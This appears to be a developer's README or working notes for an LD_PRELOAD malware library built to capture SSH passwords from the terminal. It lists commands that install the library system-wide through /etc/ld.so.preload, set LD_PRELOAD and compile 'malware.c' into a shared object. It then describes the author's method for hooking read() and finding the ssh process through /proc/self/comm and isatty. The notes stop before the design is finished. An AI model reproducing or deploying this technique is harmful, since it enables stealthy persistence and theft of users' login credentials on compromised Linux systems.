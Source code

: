 # Malware LD_PRELOAD

- Set the ld_preload as global variable systemwide
`echo "$path/fakelib.so" > /etc/ld.so.preload`

- Basic setup to use the malicious lib
`export LD_PRELOAD=$PWD/fakelib.so`
- Delete basic setup to use malicious lib
`unset LD_PRELOAD`
- Command to compile the bad library
`gcc malware.c -fPIC -shared -o fakelib.so`

First we have to confirm that we are called specificly by the ssh procces because if we dont, we will hook any other program running using the read() function.
The first thing i tried was to use "*program_invocation_name" but it did not work as intended. Example output when printing the name of the proccess when running a ssh command.
```
ssh
ssh
IS NOT SSH
ssh
ssh
IS NOT SSH
ssh
ssh
IS NOT SSH
ssh
ssh
IS NOT SSH
sshvictims@172.23.0.2's password:
```
After some research, i found proc man page the /proc/self symlink that resolve to the process own pid directory. https://man7.org/linux/man-pages/man5/proc.5.html
We then can access the /proc/self/comm, to get the name of the command associated with the process
https://man7.org/linux/man-pages/man5/proc_pid_comm.5.html
Now i only get the name of the ssh procces.
After being sure that the correct process is ssh, the idea is to get the ssh password as it is being written by the user. A few tests showed me that what retrieves the ssh password is not inside the process, so nothing is printed when i try.
The solution might be that ssh calls another process, the terminal, to retrieve the data.
One function called isatty allow us to test whether a file descriptor is a terminal or not.
Now i have to figure out how to know that the process that called this process is ssh
